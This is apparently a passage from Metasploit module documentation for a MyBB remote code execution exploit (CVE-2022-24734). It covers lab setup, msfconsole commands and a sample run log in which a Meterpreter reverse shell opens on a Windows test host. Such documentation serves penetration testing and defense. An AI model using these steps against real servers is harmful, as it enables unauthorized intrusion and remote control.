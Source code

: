 ```
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass 127.0.0.1:9999;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
        }
	}
```
  - Run:
```
    cd C:\nginx
    start nginx.exe
```
- Install MyBB
  - Follow the installation process [here](https://docs.mybb.com/1.8/install/).

## Verification Steps
1. Install the application (see [Installation Steps](#installation-steps))
1. Start msfconsole
1. Do: `use exploit/multi/http/mybb_rce_cve_2022_24734`
1. Do: `run LHOST=<local host IP> RHOSTS=<remote host IP> USERNAME=<MyBB user> PASSWORD=<MyBB password>`
1. You should get a shell.
1. Try again with a different targets

## Options

### USERNAME

The username of a privileged MyBB account. It must have rights to add or update setting (usually with the administrator role)

### PASSWORD

The password of the MyBB account.

## Scenarios

### Windows (target 0 - PHP)
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.1.215
[*] Meterpreter session 1 opened (192.168.1.44:4444 -> 192.168.1.215:63777) at 2022-05-23 15:41:40 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
```